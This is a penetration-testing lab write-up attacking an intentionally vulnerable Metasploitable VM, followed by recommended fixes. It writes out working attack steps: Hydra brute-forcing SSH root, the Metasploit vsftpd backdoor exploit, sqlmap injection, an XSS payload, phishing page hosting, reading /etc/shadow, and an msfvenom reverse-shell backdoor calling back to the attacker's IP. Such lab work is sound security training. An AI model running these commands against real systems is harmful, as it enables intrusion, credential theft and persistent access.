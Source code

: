 ## 1. Introduction

This project demonstrates the principles of network security and penetration testing using Kali Linux and Metasploitable. The primary objective is to identify and exploit vulnerabilities in Metasploitable’s network services, implement post-exploitation techniques, and propose mitigation strategies to secure such systems.

## 2. Phase 1: Reconnaissance - Gathering Initial Information

#### **Objective:**

Identify open ports, running services, and potential vulnerabilities on the Metasploitable machine.

#### **Tools Used:**

* **Nmap**: For comprehensive network scanning and service detection.
* **Wireshark**: For deep network traffic analysis.
* **enum4linux**: For SMB enumeration and identifying shared resources.
* **Nikto**: For web server scanning to identify vulnerabilities.
* **sqlmap**: For automated SQL injection detection and exploitation.
* **Metasploit Framework**: For exploiting vulnerabilities and post-exploitation tasks.
* **Hydra**: For performing brute force attacks on multiple services.
* **John the Ripper**: For offline password cracking and analyzing password security.
* **Burp Suite**: For web application vulnerability scanning and testing.
* **Gobuster**: For directory and file brute-forcing to discover hidden resources on web servers.

#### **Steps:**

1. Perform an initial network scan to discover open ports using advanced Nmap features:

   ```
   nmap -A [Metasploitable_IP]
   ```
2. Analyze the scan results:

   * Identify open ports (e.g., 21 for FTP, 22 for SSH, 445 for SMB, 80 for HTTP).
   * Document running services and their versions.
3. Save the scan results:

   ```
   nmap -A [Metasploitable_IP] -oN reconnaissance_results.txt
   ```
4. Use Wireshark to analyze network traffic and detect unusual patterns, protocols, or potential vulnerabilities:

   * Capture packets for further analysis.
   * Filter traffic to focus on target-specific data.
5. Use enum4linux to enumerate SMB services and identify misconfigurations, shared files, and user accounts:

   ```
   enum4linux [Metasploitable_IP]
   ```
6. Use Nikto to scan the web server for vulnerabilities:

   ```
   nikto -h http://[Metasploitable_IP]
   ```

   * Identify outdated software, misconfigurations, or default files that can be exploited.
7. Use Gobuster to brute-force hidden directories and files on the web server:

   ```
   gobuster dir -u http://[Metasploitable_IP] -w /usr/share/wordlists/dirb/common.txt
   ```

   * Discover hidden resources that might contain sensitive information or vulnerabilities.

#### **Findings:**

* Open Ports: 21 (FTP), 22 (SSH), 445 (SMB), 80 (HTTP)
* Services Detected:
  * FTP (vsftpd 2.3.4)
  * SSH (OpenSSH 4.3)
  * SMB (Samba 3.0.20)
  * HTTP (Apache 2.2.8 with PHP 5.2.4)

## 3. Phase 2: Exploiting Vulnerabilities - Taking Advantage of Weaknesses

#### **Option 1: SSH Brute Force**

1. **Objective:** Gain access via SSH by cracking weak credentials.
2. **Tool Used:**
   * Hydra
3. **Command:**
   ```
   hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://[Metasploitable_IP]
   ```
4. **Outcome:**
   * Discovered the password: `<span>123456</span>`
   * Gained SSH access as the root user.

#### **Option 3: FTP Exploits**

1. **Objective:** Exploit vulnerabilities in the FTP service.
2. **Steps:**
   * Check for anonymous login:
     ```
     ftp [Metasploitable_IP]
     ```
   * Use Metasploit to exploit vsftpd backdoor:
     ```
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOST [Metasploitable_IP]
     exploit
     ```
3. **Outcome:**
   * Obtained a reverse shell via the FTP backdoor and used the session to map the file system, exfiltrate sensitive files, and identify further attack vectors.

#### **Option 4: HTTP Exploits**

1. **Objective:** Exploit vulnerabilities in the web application hosted on HTTP.
2. **Steps:**
   * **SQL Injection**:
     * Use sqlmap to identify and exploit SQL injection vulnerabilities by automating database queries and extracting critical information:
       ```
       sqlmap -u "http://[Metasploitable_IP]/vulnerable_page?param=value" --dbs
       ```
   * **XSS Testing**:
     * Insert test scripts (e.g., `<span><script>alert('XSS');</script></span>`) in input fields.
3. **Outcome:**
   * Retrieved sensitive database information via SQL injection.
   * Demonstrated script execution for XSS.
4. **Phishing Attack**:
   * Use Burp Suite to craft and deliver a phishing page on Apache, enhancing the sophistication of the attack:
     ```
     sudo service apache2 start
     sudo cp phishing_email.html /var/www/html/phishing.html
     ```
   * Generate a phishing link:
     ```
     echo "http://[Kali_IP]/phishing.html" | setoolkit
     ```
   * Analyze the victim’s behavior upon accessing the phishing link.

## 4. Phase 3: Post-Exploitation - Expanding Access and Persistence

#### **Objective:**

Explore the target system further, escalate privileges, and gather sensitive information.

#### **Techniques Used:**

1. **Shell Access:**
   * Managed active sessions in Metasploit and executed post-exploitation modules for credential harvesting and lateral movement:
     ```
     sessions -i [session_ID]
     ```
2. **Privilege Escalation:**
   * Checked for SUID binaries:
     ```
     find / -perm -4000 2>/dev/null
     ```
   * Exploited a misconfigured binary to gain root privileges.
3. **Data Gathering:**
   * Accessed sensitive files:
     ```
     cat /etc/passwd
     cat /etc/shadow
     ```
   * Extracted user credentials and configuration files.
4. **Maintaining Access:**
   * Created a persistent backdoor:
     ```
     msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f elf > backdoor.elf
     scp backdoor.elf root@[Metasploitable_IP]:/tmp
     chmod +x /tmp/backdoor.elf
     ```

## 5. Phase 4: [ Report ]

#### **Vulnerabilities and Fixes:**

1. **SSH:**
   * Use strong passwords and key-based authentication.
   * Disable root login over SSH.
2. **SMB:**
   * Apply patches for known vulnerabilities like EternalBlue.
   * Disable unused SMB versions.
3. **FTP:**
   * Disable anonymous access.
   * Use secure alternatives like SFTP.
4. **HTTP:**
   * Sanitize input to prevent SQL injection and XSS.
   * Regularly update web server and application software.
5. **Phishing Attacks:**
   * Deploy anti-phishing tools.
   * Conduct regular security awareness training.

#### **General Recommendations:**

* Use firewalls to restrict access to unnecessary services.
* Regularly update and patch systems.
* Conduct periodic vulnerability assessments.
